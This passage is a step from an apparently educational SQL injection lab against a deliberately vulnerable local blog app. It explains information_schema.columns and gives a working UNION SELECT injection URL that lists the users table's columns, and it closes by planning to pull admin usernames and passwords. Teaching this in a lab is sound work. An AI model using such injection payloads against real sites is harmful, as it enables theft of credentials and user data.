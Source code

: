 # (f) Get columns of users table

The plan here is to **list all the columns** of the table **users**, where we think is all the information (username, password, etc) about users.

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous steps also store information about all the columns in every table of every database.

This information is stored in a table called **COLUMNS**.

So, to get all the columns of our target table we have to query that *COLUMNS* table, like this:
```shell
SELECT column_name FROM information_schema.columns WHERE table_schema='insecure_blog' AND table_name='users' LIMIT 1 OFFSET 0
```

> **Note #1:**
>
> Remember the **information_schema.columns** structure? Take a look:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | users         | id           |
> | insecure_blog | users         | username     |
> | insecure_blog | users         | firstname    |
> | insecure_blog | users         | lastname     |
> | insecure_blog | users         | avatar       |
> 
> We are quering the **COLUMN_NAME**


Just like before we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_schema='insecure_blog' AND table_name='users' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the columns.


> **Note #2:**
>
> Remember that we use **LIMIT** and **OFFSET** for listing one column at a time, avoiding errors


--

If all went well, we will have 8 columns:

- id
- username
- password
- isAdmin
- firstname
- lastname
- avatar
- description

**isAdmin** looks like a column with a boolean value. 
One could guess that all *Administrator users* will have this field set to **true** or **1**.

So next step will be getting all users with **_isAdmin=true_** and then getting their **_usernames_** and **_passwords_**.